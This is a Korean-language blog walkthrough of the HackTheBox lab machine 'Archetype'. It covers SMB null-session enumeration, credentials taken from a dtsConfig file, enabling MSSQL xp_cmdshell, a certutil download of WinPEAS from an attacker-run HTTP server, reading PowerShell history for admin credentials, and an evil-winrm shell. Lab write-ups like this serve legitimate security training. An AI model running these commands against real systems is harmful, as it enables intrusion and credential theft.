

+++
title = '[HTB] - Archetype'
date = 2026-05-05T11:00:00+09:00
draft = false

categories = ["HTB", "pentesting"]
tags = ["HTB", "Window", "WinPEAS", "MSSQL", "SMB", "PowerShell"]
+++

# [HTB] — Archetype 풀이

## 개요

Archetype은 HackTheBox Starting Point 시리즈의 머신으로, Windows 환경에서 SMB 공유 폴더의 설정 파일 노출부터 MSSQL을 경유한 시스템 접근, PowerShell 히스토리에서의 자격증명 탈취까지 실무에서 자주 등장하는 공격 체인을 경험할 수 있는 머신이다.

| 항목 | 내용 |
|------|------|
| OS | Windows Server 2019 |
| 난이도 | Very Easy |
| 주요 기법 | SMB Null Session, MSSQL xp_cmdshell, WinPEAS, PSReadLine 히스토리 탈취 |

---

## 정찰

### 포트 스캔

```bash
sudo nmap 10.129.136.202 -Pn -n -p- --min-rate 3000
```

```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
5985/tcp  open  wsman
47001/tcp open  winrm
```

139/445(SMB), 1433(MSSQL), 5985(WinRM) 포트가 열려있다. Windows 환경임을 확인할 수 있고, WinRM이 열려있다는 점은 나중에 유효한 자격증명을 확보했을 때 `evil-winrm`으로 직접 셸을 얻을 수 있다는 의미다.

---

## SMB 열거 — 자격증명 획득

### Null Session으로 공유 폴더 확인

SMB는 인증 없이도 공유 폴더 목록을 조회할 수 있는 Null Session을 허용하는 경우가 있다. 먼저 이 취약점을 확인한다.

```bash
smbclient -N -L //10.129.136.202
```

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
backups         Disk
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

기본 공유 자원(ADMIN$, C$, IPC$) 외에 `backups`라는 커스텀 공유 폴더가 노출됐다. 인증 없이 접근해본다.

```bash
smbclient -N //10.129.136.202/backups
```

```
smb: \> ls
  prod.dtsConfig    AR    609
```

`prod.dtsConfig` 파일을 발견했다. 다운로드해서 내용을 확인한다.

```bash
smb: \> get prod.dtsConfig
smb: \> !cat prod.dtsConfig
```

```xml
<DTSConfiguration>
    <Configuration ConfiguredType="Property"
        Path="\Package.Connections[Destination].Properties[ConnectionString]">
        <ConfiguredValue>
            Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;
            Initial Catalog=Catalog;Provider=SQLNCLI10.1;
        </ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

**dtsConfig 파일이란?**

SSIS(SQL Server Integration Services) 패키지의 설정 파일이다. SSIS는 데이터베이스 간 데이터 이동과 자동화 작업을 담당하는 SQL Server의 ETL 도구인데, 패키지가 DB에 연결할 때 필요한 ConnectionString을 이 파일에 외부 설정값으로 저장한다. 개발 편의를 위해 패스워드를 암호화하지 않고 평문으로 저장하는 경우가 많아, 공격자 관점에서 반드시 확인해야 하는 파일이다.

```
획득한 자격증명
ID: ARCHETYPE\sql_svc
PW: M3g4c0rp123
```

---

## MSSQL 접근 — xp_cmdshell 활성화

### MSSQL 접속

획득한 자격증명으로 1433 포트의 MSSQL에 접속한다. `sql_svc`는 Windows 도메인 계정이기 때문에 `-windows-auth` 옵션이 필요하다.

```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.136.202 -windows-auth
```

```
SQL (ARCHETYPE\sql_svc  dbo@master)>
```

`dbo` 권한으로 접속됐다. MSSQL에서 dbo는 데이터베이스 내 최고 권한을 의미하며, sysadmin에 준하는 작업이 가능하다.

### xp_cmdshell 활성화

`xp_cmdshell`은 MSSQL에서 OS 명령어를 직접 실행할 수 있게 해주는 확장 저장 프로시저다. 기본적으로 비활성화되어 있으나, sysadmin 또는 dbo 권한이 있으면 활성화할 수 있다.

```sql
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

활성화 후 현재 계정 확인:

```sql
xp_cmdshell "whoami"
-- archetype\sql_svc
```

---

## WinPEAS로 권한 상승 정보 수집

### 파일 전송 준비

xp_cmdshell로 명령을 하나씩 실행하는 것은 불편하기 때문에, WinPEAS로 시스템 전체 정보를 한 번에 수집한다. 공격자 머신에서 Python HTTP 서버를 띄우고 타겟이 파일을 가져오도록 한다.

```bash
# 공격자 머신
python3 -m http.server 8080
```

타겟에 파일을 저장할 경로가 필요하다. `C:\Windows\Temp`나 `C:\Windows\system32`는 서비스 계정 권한으로 쓰기가 막혀있는 경우가 많다. Windows에서 모든 계정이 읽고 쓸 수 있는 경로는 `C:\Users\Public`이다. Linux의 `/tmp`와 유사한 역할이지만 재부팅 후에도 파일이 유지된다는 차이가 있다.

```sql
xp_cmdshell "certutil -urlcache -f http://10.10.15.58:8080/winPEASany.exe C:/Users/Public/WinPEASany.exe"
```

`certutil`은 Windows에 기본 내장된 인증서 관리 도구인데, `-urlcache -f` 옵션으로 파일 다운로드에 활용할 수 있다. PowerShell `wget`보다 경량이고 구문이 단순하다.

### WinPEAS 실행

출력이 수백 줄에 달하기 때문에 파일로 리다이렉트해서 저장한다.

```sql
xp_cmdshell "C:/Users/Public/WinPEASany.exe > C:/Users/Public/output.txt 2>&1"
```

실행 완료 후 결과 확인:

```sql
xp_cmdshell "type C:/Users/Public/output.txt"
```

### PowerShell 히스토리에서 자격증명 발견

WinPEAS 결과에서 PowerShell 히스토리 파일의 존재를 확인했다. 직접 읽어본다.


```sql
xp_cmdshell "powershell -nop -c \"cat C:/Users/sql_svc/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt\""
```

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

**PSReadLine ConsoleHost_history.txt란?**

PowerShell의 명령어 히스토리 파일이다. Linux의 `~/.bash_history`와 동일한 역할을 하며, PowerShell에서 실행한 모든 명령어가 평문으로 누적 저장된다. 경로가 항상 고정되어 있어서 침투 테스트 시 반드시 확인해야 하는 파일이다.

**net use 명령어란?**

Windows에서 네트워크 공유 자원을 드라이브 문자에 마운트하는 명령어다. Linux의 `mount`와 유사하다.

```
net use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
         │  │                   │                  │
         │  UNC 경로            인증 계정           패스워드 (평문)
         마운트할 드라이브
```

`/user` 옵션과 패스워드를 PowerShell에서 직접 타이핑하면 히스토리에 평문으로 기록된다. 관리자가 스크립트 대신 인터랙티브 셸에서 직접 자격증명을 입력한 흔적이 그대로 남은 것이다.

```
획득한 자격증명
ID: administrator
PW: MEGACORP_4dm1n!!
```

---

## Administrator 접근 — 플래그 획득

WinRM(5985)이 열려있으므로 `evil-winrm`으로 직접 PowerShell 세션을 얻는다.

```bash
evil-winrm -i 10.129.136.202 -u administrator -p 'MEGACORP_4dm1n!!'
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls
-ar---  2/25/2020  root.txt

*Evil-WinRM* PS C:\Users\sql_svc\Desktop> ls
-ar---  2/25/2020  user.txt
```

두 플래그를 모두 획득했다.

---

## 공격 흐름 정리

```
SMB Null Session
    → backups 공유 폴더 접근
        → prod.dtsConfig에서 sql_svc 자격증명 획득
            → MSSQL 접속 (dbo 권한)
                → xp_cmdshell 활성화
                    → WinPEAS 전송 및 실행
                        → PSReadLine 히스토리에서 administrator 자격증명 발견
                            → evil-winrm으로 Administrator 셸 획득
```

---

## 핵심 정리

**SMB 공유 폴더는 항상 열거한다.** Null Session이 허용되어 있으면 인증 없이 파일을 가져올 수 있고, 설정 파일에 자격증명이 평문으로 박혀있는 경우가 실무에서도 자주 등장한다.

**dtsConfig 파일을 발견하면 반드시 ConnectionString을 확인한다.** SSIS 설정 특성상 DB 자격증명이 평문으로 저장되어 있을 가능성이 높다.

**Windows 파일 드롭존은 `C:\Users\Public`이 가장 안정적이다.** 서비스 계정 권한에서 `C:\Windows\Temp`나 시스템 디렉터리는 쓰기가 막히는 경우가 많다.

**PSReadLine 히스토리는 반드시 확인한다.** 경로가 고정되어 있고(`C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`), 관리자가 인터랙티브 셸에서 직접 자격증명을 입력한 흔적이 남아있는 경우가 많다.

**WinRM(5985)이 열려있으면 evil-winrm을 바로 시도한다.** 유효한 자격증명만 있으면 완전한 PowerShell 세션을 얻을 수 있다.